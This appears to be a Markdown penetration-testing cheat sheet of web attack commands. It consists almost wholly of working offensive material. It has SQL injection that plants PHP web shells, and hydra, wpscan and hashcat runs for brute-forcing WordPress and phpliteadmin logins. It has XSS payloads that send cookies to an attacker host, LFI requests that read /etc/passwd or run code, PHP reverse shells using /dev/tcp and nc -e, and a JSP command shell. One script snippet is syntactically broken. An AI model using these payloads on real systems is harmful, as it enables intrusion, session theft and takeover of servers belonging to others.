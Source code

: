 
# Web

## User Agents 
```
Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)
```
```
Googlebot/2.1 (+http://www.googlebot.com/bot.html)
```
```
Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/55.0.2883.87 Safari/537.36
```

## SQL Injection Payloads
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/srv/www/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/nginx-default/shell.php"
```
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/usr/local/apache2/htdocs/shell.php"
```

## Web Applications 

### Wordpress

#### Password bruteforce

```bash
wpscan --url http://$target --username admin --wordlist /mnt/share/wordlists/rockyou.txt -t 20
```
```bash
hydra -vV -l admin -P /usr/share/wordlists/rockyou.txt $target http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=ERROR" -I
```
```bash
hashcat --force -m 400 -a 0 -o found1.txt --remove wphash.hash /usr/share/wordlists/rockyou.txt
```

#### User enumeration
```bash
hydra -vV -L /mnt/share/wordlists/rockyou.txt -p wedontcare $target http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

### phpliteadmin
```bash
hydra -l "" -P /mnt/share/wordlists/rockyou.txt -t 1 -v -V $target http-post-form /db/phpliteadmin.php:”password=^PASS^&remember=yes&login=Log+In&proc_login=true”:”Incorrect password.”
```

## XSS
```html
'">><script>i=document.createElement("img");i.src='http://$source_ip/'+document.cookie;</script>
```
```html
<script>new Image().src="http://$source_ip/"+document.cookie;</script>
```
```js
var img = document.createElement('img'); img.src = 'http://$source_ip/' + document.cookie; document.body.appendChild(img);
```
```html
<script>
var img = document.createElement('img'); img.src = 'http://$source_ip/' + document.cookie; document.body.appendChild(img);
</script>
```
```html
<iframe SRC="http://$source_ip/report" height="0" width="0"></iframe>
```
```js
var http = new XMLHttpRequest();var url = "http://$source_ip/";var params = "data=" + document.cookie;http.open("POST", url, true);http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");http.send(params);
```
```js
javascript:void(document.cookie="example=example");
```
```js
function process_body(xhr) {
    var data = xhr.response;
    if (!xhr.responseType || xhr.responseType === "text") {
        data = xhr.responseText;
    } else if (xhr.responseType === "document") {
        data = xhr.responseXML;
    } else if (xhr.responseType === "json") {
        data = xhr.responseJSON;
    }
    return data;
}
var xhr = new XMLHttpRequest(); 
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        console.log(process_body(xhr);
    }
};
xhr.open('GET', 'http://example', true);
xhr.send(null);
```

## WebDav
```bash
davtest -url http://$target
```
```bash
curl -X PUT http://$target/test.jsp/ -d @- < test.jsp
```

## LFI 
```bash
curl -s --data "<?php system('whoami');?>" "http://$target/example.php?ACS_path=php://input%00"
```
```bash
curl "http://$target/example.php?page=php://filter/convert.base64-encode/resource=/etc/passwd%00"
```
```bash
curl "http://$target/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd%00"
```
```
curl "http://$target/example.php?page=http://10.11.0.22/menu.php?file=data:text/plain,<?php system('whoami') ?>"
```
```bash
bash $pwd/tools/web/Kadimus/bin/kadimus -u $target/?pg=contact -A "Mozilla/5.0 (X11; Linux i586; rv:31.0) Gecko/20100101 Firefox/73.0" --threads 10 --connect-timeout 10 --retry-times 1 
```

## Payloads 
```php
<?php shell_exec("bash -i >& /dev/tcp/$source_ip/$source_port 0>&1") ?>
```
```php
<?php shell_exec("nc -e /bin/sh $source_ip $source_port") ?>
```
```php
<?php $sock=fsockopen("$source_ip",$source_port);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
## DNS
```bash
dnsrecon -d $target -t axfr
```
```bash
nmap -p 80 --script dns-brute.nse $target 
```
```bash
python dnscan.py -d $target -w ./subdomains-10000.txt
```

## LFI paths

RHEL / Red Hat / CentOS / Fedora Linux Apache log file location   
```
/var/log/httpd/access_log
```
```
/var/log/httpd/error_log
```

Debian / Ubuntu Linux Apache log file location
```
/var/log/apache2/access.log
```
```
/var/log/apache2/error.log
```

FreeBSD Apache log file location
```
/var/log/httpd-access.log
```
```
/var/log/httpd-error.log
```

Config
```
/usr/local/etc/apache2/httpd.conf
```
```
/etc/apache2/apache2.conf
```
```
/etc/httpd/conf/httpd.conf
```

Windows web roots
```
C:/xampp/htdocs/
```
```
C:/wamp/www/
```
```
C:/Inetpub/wwwroot/
```


## Web Servers 
```
python -m SimpleHTTPServer 8080
```
```
python3 -m http.server 8080
```
```
php -S 0.0.0.0:8080
```
```
ruby -run -e httpd . -p 8080
```
```
busybox httpd -f -p 8080
```

## Logs 

PHP
```
echo 'display_errors = On' | sudo tee -a /etc/php5/apache2/php.ini > /dev/null
```
```
sudo systemctl restart apache2
```